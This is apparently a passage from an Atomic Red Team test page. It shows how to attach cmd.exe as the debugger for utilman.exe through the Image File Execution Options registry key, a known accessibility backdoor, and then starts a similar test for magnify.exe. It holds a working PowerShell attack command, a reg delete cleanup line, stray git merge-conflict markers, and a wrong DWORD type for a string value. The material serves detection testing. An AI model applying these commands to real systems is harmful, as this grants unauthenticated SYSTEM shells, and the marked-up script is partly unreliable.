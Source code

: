 **Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_executable | File You Want To Attach cmd To | String | utilman.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe"
$Value = "C:\windows\system32\cmd.exe"
$Name = "Debugger"
IF(!(Test-Path $registryPath))
 {
  New-Item -Path $registryPath -Force
  New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType DWORD -Force
 }
ELSE
 {
  New-ItemProperty -Path $registryPath -Name $name -Value $Value
 }
```

#### Cleanup Commands:
```
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /v Debugger /f
```

<<<<<<< HEAD




=======
>>>>>>> parent of 511bb87... Add Dependencies section to test Yaml and support to use them in the PS execution framework (#772)
<br/>
<br/>

## Atomic Test #4 - Attaches Command Prompt As Debugger To Process - magnify
This allows adversaries to execute the attached process

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_executable | File You Want To Attach cmd To | String | magnify.exe|
